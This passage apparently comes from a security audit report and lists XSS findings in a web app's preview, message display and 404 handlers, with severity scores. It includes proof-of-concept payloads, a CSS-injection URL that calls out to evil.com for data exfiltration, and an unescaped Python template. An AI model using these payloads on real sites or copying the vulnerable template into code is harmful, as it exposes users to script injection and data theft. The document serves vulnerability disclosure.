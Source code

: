 #### Attack Scenario:
```javascript
// Client-side code would insert this directly:
fetch('/api/preview', {
    method: 'POST',
    body: JSON.stringify({
        content: '<img src=x onerror=alert(1)>'
    })
}).then(r => r.json())
  .then(data => element.innerHTML = data.preview); // XSS triggered
```

---

### 7. Multi-Context XSS - Message Display

**Vulnerability Type:** XSS in Multiple Contexts  
**Severity:** **CRITICAL**  
**CVSS 3.1 Score:** 9.5 (Critical)  

#### Location Details:
- **Function:** `display_message()`
- **Line Numbers:** 327-336
- **Vulnerable Contexts:**
  1. HTML attribute context (line 329)
  2. HTML content context (line 330)
  3. JavaScript string context (line 334)

#### Attack Vectors:
1. **CSS Injection via Type:**
   - URL: `/message?type=danger%20style=background:url(//evil.com/track)`
   - Impact: CSS-based data exfiltration

2. **JavaScript Context Escape:**
   - URL: `/message?msg=");alert(1);//`
   - Impact: Breaks out of console.log string

---

### 8. XSS in 404 Error Handler

**Vulnerability Type:** Reflected XSS in Error Page  
**Severity:** **MEDIUM**  
**CVSS 3.1 Score:** 6.1 (Medium)  

#### Location Details:
- **Function:** `not_found()`
- **Line Numbers:** 345-348
- **Vulnerable Code:**
```python
content = f"""
    <h1>404 - Page Not Found</h1>
    <p>The page '{path}' was not found.</p>
"""
```

---